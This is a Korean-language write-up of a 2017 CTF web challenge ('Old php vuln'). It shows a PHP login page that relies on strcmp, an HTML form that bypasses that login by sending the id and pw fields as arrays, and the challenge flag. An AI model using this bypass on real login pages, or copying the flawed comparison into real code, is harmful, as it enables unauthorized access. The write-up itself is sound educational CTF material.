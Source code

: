 # 2017 Bugs_Bunny CTF - [Web] Old php vuln
## Problem
```
Hey ,Agent 
Your mission is to hack this secure portal .
Good luck.
http://52.53.151.123/web/web35.php
```

## Solution
[*] 해당 문제는 라이트업을 통하여 문제를 재구성하여 풀었으므로, 실제의 문제내용과는 틀릴 수 있습니다. 문제에 대한 더 자세한 라이트업은 동영상으로 되어있으니, 맨 마지막에 링크 첨부하겠습니다.

처음 문제 페이지에 접속을 하면 로그인창이 나오는데, 문제가 `old php vuln` 인 것으로 보아서
`strcmp` 구문의 취약점을 생각 할 수가 있다.

`POST` 값으로 전송되어지는 `id`, `pw` 파라미터값을 `id[]`, `pw[]` 이런 식으로 `Array`형태로 만들어서 전송을 하면, 플래그를 확인할 수가 있다.

`Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}`


## Solution Code
```
<!DOCTYPE html>
<html>
<head>
	<title> Solve.html </title>
</head>
<body>
<form action="index.php" method="POST">
<input type="text" name="id[]"><br>
<input type="text" name="pw[]"><br>
<input type="submit" value="OK">
</form>
</body>
</html>
```

## Problem Code
```
<?php

function solve() {
	echo "Hello, admin! <br>Bugs_Bunny{65755da329b8770c3e11e7ccba37f4e3}";
}


$id = $_POST['id'];
$pw = $_POST['pw'];

if(isset($id) && isset($pw)) {
	if(strcmp($id, "admin")==0) {
		if(strcmp($pw, "sotodrkrdpsxmdhkdltmsmswjddusdlchlrhrhdkdldhdkdlsmschldbwjddlchlrhdlsemt")==0) {
			@solve();
		} else {
			echo "You are not admin! :( <br><a href='index.php'> Back </a>";
		}
	} else {
		echo "You are not admin! :( <br><a href='index.php'> Back </a>";
	}
} else {
	?>
	<!DOCTYPE html>
	<html>
	<head>
		<title> Admin Login Page </title>
	</head>
	<body>
	<form method="POST">
	<input type="text" name="id"><br>
	<input type="text" name="pw"><br>
	<input type="submit" value="Login">
	</form>
	</body>
	</html>
	<?
}
?>
```

## Other Write-Ups
[Write-Up in Youtube](https://www.youtube.com/watch?v=gWEbrLftMu4)
